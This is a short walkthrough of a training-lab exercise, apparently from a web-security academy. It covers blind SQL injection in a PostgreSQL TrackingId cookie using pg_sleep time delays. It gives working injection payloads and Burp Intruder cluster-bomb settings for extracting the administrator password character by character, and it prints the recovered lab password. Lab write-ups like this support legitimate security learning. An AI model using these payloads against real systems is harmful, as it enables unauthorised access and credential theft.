 # Lab: Blind SQL injection with time delays and information retrieval

Intercept a page and find the TrackingId cookie. Append `'||pg_sleep(10)--` to the cookie value to see that a time delay happens.

PostgreSQL works, indicating the database type and proving the vulnerability exists.

`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Now prep to brute-force the password:
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Send the request to the intruder and select the cluster bomb attack type. Set the payloads as follows:
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Set payload 1 to use numbers 1-20 (guessing length based on last lab, but length checking is basically the same as in previous example with modifications for this context).

Set payload 2 to use a-z and 0-9. Start the attack. Sort by Response received (time) and select the top 20 longest duration rows. Highlight, then filter to only show highlighted items, then sort by payload 1, revealing the password: `q45zvimbk5v7rrtek8ee`

Login as administrator to complete the lab.
